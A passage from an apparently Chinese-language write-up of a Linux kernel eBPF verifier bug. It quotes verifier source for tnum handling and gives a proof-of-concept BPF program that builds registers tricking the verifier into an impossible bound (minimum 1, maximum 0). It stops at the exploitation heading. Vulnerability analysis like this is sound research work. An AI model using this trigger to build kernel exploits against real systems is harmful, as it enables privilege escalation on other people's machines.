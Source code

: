 ```
{
        u64 v, mu;

        v = a.value | b.value;
        mu = a.mask & b.mask;
        return TNUM(v & ~mu, mu);
}

/* 尝试基于无符号最小/最大值改进 var_off 信息 */
static void __reg_bound_offset(struct bpf_reg_state *reg)
{
        struct tnum var64_off = tnum_intersect(reg->var_off,
                                               tnum_range(reg->umin_value,
                                                          reg->umax_value));
        struct tnum var32_off = tnum_intersect(tnum_subreg(reg->var_off),
                                                tnum_range(reg->u32_min_value,
                                                           reg->u32_max_value));

        reg->var_off = tnum_or(tnum_clear_subreg(var64_off), var32_off);
}
```  
  
这两个操作在这里都不会影响 R2 的值  
## poc  
  
现在我们来构造能够触发该漏洞的两个寄存器 R2 = { .value = 1, mask = 0xffffffff00000000 } 与 R3 = { .value = 0x100000002, mask = 0 }，其中 R3 可以直接通过赋值构造一个 known 的寄存器， R2 需要一半已知一半未知，可以通过 从 map 中取出一个值进行赋值 的方式先构造出一个 unknown 的寄存器，再与 0xffffffff00000000 做 AND 操作使其低 32 位变为 known：  
```
#define POC_PROG(__map_fd)                              \        /* Load value from map */                       \        BPF_LD_MAP_FD(BPF_REG_9, __map_fd),             \        BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),            \        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),           \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),          \        BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),            \        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \        /* if success, r0 will be ptr to value, 0 for failed */              \        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),          \        BPF_EXIT_INSN(),                                \        /* load value into r2, make it part-unknown */  \        BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 0),   \        BPF_MOV64_IMM(BPF_REG_4, 0xffffffff),           \        BPF_ALU64_IMM(BPF_LSH, BPF_REG_4, 32),          \        BPF_ALU64_REG(BPF_AND, BPF_REG_2, BPF_REG_4),   \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x1),         \        /* r3 = 0x100000002 */                          \        BPF_MOV64_IMM(BPF_REG_3, 0x1),                  \        BPF_ALU64_IMM(BPF_LSH, BPF_REG_3, 32),          \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, 0x2),         \        /* triger the vulnerability */                  \        BPF_ALU64_REG(BPF_AND, BPF_REG_2, BPF_REG_3)
```  
  
把这个程序载入内核过一遍 verifier，简单打印下日志，可以看到  
我们确乎构造出了一个最小边界值为 1、最大边界值为 0 的寄存器：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZIrEVjscIm5ibhmddP7fS42bHibUSsXHpYzUBjJUtTb3XZNZOAcicu0QELW9T2SGj11DNdurqKZ12icdw/640?wx_fmt=png "")  
# 0x02. 漏洞利用  
  